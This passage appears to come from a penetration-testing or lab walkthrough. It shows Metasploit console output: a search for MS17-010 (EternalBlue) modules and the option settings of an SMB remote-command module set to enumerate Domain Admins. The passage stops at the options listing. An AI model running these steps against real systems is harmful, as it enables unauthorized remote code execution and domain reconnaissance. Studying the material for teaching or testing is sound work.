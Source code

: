 ```bash
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.0.33-dev                          ]
+ -- --=[ 2102 exploits - 1134 auxiliary - 357 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Use the resource command to run 
commands from a file

msf6 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > 

```

We will use the "auxiliary/admin/smb/ms17\_010\_command" module for now to test our exploit.

Selecting the exploit we have a few options that need to be filled in.

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > options

Module options (auxiliary/admin/smb/ms17_010_command):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   COMMAND               net group "Domain Admins" /domain                               yes       The command you want to execute on the remote host
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
```